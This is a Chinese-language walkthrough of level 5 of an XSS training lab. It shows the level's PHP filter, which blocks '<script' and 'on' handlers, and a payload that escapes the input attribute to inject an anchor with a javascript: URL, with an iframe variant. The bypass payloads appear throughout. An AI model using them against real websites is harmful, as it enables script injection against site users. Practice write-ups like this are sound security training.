

# Level-5 （<script 和 on 事件全禁 → a 标签伪协议）

## 万能探针

```
<SCRscriptIPT>'"()Oonnjavascript
```

## 查看分析源码

```php
$str = strtolower($_GET["keyword"]);            // 全转小写
$str2 = str_replace("<script","<scr_ipt",$str); // 干掉 <script
$str3 = str_replace("on","o_n",$str2);          // 干掉 on 事件
echo '<input name=keyword value="'.$str3.'">';
```

三刀：`<script` → `<scr_ipt`，所有 `on*` 事件 → `o_n*`，大小写混写也被 `strtolower` 杀


但 `<>"` 一个没拦 → 破标签后不能用 script，换个标签

## 构造 payload

```
"><a href="javascript:alert(1)">click</a>
```


点击

## 闭合原理

```html
<input name=keyword value=""><a href="javascript:alert(1)">click</a>">
                         ↑__↑ ↑_________________________________↑
                    关value    关input，插a标签+伪协议
```

`<a href="javascript:alert(1)">` → 点击链接执行 JS

过滤检查：`<script` 没出现，`on` 也没出现，小写全过

就是需要点一下才弹窗。另外 `"><iframe src="javascript:alert(1)">` 也行，思路一样——换标签不换路。
